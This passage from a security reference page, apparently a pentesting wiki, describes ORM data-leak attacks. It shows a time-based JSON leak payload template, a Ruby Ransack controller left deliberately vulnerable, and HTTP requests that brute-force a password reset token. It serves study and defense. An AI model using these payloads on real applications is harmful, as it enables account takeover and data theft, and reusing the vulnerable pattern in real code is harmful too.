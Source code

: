 ```json
                }
              }
            }
          }
        }
      }
    }
  }
}
```

- **Error/Timed queries**: In the original post you can read an very extensive set of tests performed in order to find the optimal payload to leak information with a time based payload. This is:

```json
{
    "OR": [
        {
            "NOT": {ORM_LEAK}
        },
        {CONTAINS_LIST}
    ]
}
```

Where the `{CONTAINS_LIST}` is a list with 1000 strings to make sure the **response is delayed when the correct leak is found.**

## **Ransack (Ruby)**

These tricks where [**found in this post**](https://positive.security/blog/ransack-data-exfiltration)**.**

> [!TIP]
> **Note that Ransack 4.0.0.0 now enforce the use of explicit allow list for searchable attributes and associations.**

**Vulnerable example:**

```ruby
def index
  @q = Post.ransack(params[:q])
  @posts = @q.result(distinct: true)
end
```

Note how the query will be defined by the parameters sent by the attacker. It was possible to for example brute-force the reset token with:

```http
GET /posts?q[user_reset_password_token_start]=0
GET /posts?q[user_reset_password_token_start]=1
...
```

By brute-forcing and potentially relationships it was possible to leak more data from a database.
